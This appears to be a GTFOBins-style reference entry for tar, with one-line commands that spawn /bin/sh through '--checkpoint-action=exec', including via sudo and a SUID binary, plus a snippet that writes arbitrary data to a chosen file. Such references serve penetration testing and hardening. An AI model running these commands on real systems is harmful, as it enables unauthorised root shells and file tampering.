 ```yaml
---
functions:
  execute-interactive:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  sudo-enabled:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  suid-limited:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo data > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
---
```

